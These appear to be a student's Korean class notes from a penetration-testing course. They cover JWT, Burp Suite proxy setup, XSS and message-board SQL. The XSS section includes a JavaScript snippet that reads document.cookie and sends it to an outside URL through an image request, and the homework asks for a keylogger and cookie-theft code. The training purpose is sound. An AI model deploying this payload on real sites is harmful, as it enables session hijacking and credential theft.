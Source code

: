 모의해킹 7기 4주차 - cicd

클라이언트 측 정보에서 발생하는 취약점이 뭐가 있을까?

쿠키를 조작 못 하게 -> jwt
어썬ijation?
jwt token
hash값을 통해서 무결성 체크를 한다

암행어사의 마두패 같은 느낌

authorization

hmac

로그인 할 때 사용하는 sql 문에 종류가 다양하다
개행은 알겠는데
괄호는 뭐냐
필터링

burp suite
web proxy tool
browser <-> web proxy tool <-> server

웹서버는 dmz망으로 연결되어 있다고?
oscp

정보수집
서비스분석
exploit
post-exploit

proxy listners

모바일 앱 해킹할 때: all interfaces
로컬 컴퓨터에서 burp suite 사용할 때 -> 루프백 사용
외부 컴퓨터에서 로컬 컴퓨터의 burp suite 사용할 때 -> all interface
로컬 컴퓨터가 외부 컴퓨터의 burp suite 사용할 때 -> all interface
도커 같이 가상 컴퓨터의 경우 어떻게 열어야 하니?

프록시 리스너를 사용하는 이유?

핸드폰에서도 와이파이, 데이터 설정에서 프록시 설정하면 burp suite 사용 가능

proxy란???

flag {}

리피터 반복해서 보낸다

war game 재밌네

# xss
공격자가 스크립트를 삽입할 수 있는 공격
피해자의 브라우저에서 공격자가 삽입한 스크립트가 실행된다

# hijack session id
```js
let cookieData = document.cookie;
```

# data send
``` js
const http = new XMLHttpRequest();
const url = 'https://normaltic.com/test.php';

http.open('GET', url);
Http.send();
Http.onreadystatechange = (e) => {
    console.log(Http.responseText);
};
```

# data send: like hacker
``` js
let cookieData = document.cookie;
let attackURL = "https://normaltic.com/getCred.php?cookie=";
new Image().src = attackURL + cookieData;
```

%3d%3d ==
==으로 끝나니까 base64일 가능성이 높겠다 <- ??? 어떤 과정을 거쳐야 이렇게 나오는 거죠???

게시판 구현 -> sql
제목, 내용, 작성자, 작성일, 조회수
게시판 글 작성: insert
게시판 글 리스트 보기: select
게시판 글 내용 읽기: select
게시판 글 수정: update
게시판 글 삭제: delete

게시판 페이징: limit (index) (count)
게시글 제목, 
where title like %var%
 = `grep *var*`

게시글 정렬
order by [column name] [asc/desc]

과제
1. burp suite: ctf 문제 풀이 -> 블로그에 올리면 플래그만 감춰서 올려요
2. js
문법 (수업 노트)에 적혀져 있는 친구 공부
만들어 놓은 로그인 페이지 키로거 만들기
쿠키 탈취 코드 짜기
3. 게시판 구현하기
자료실 익명 게시판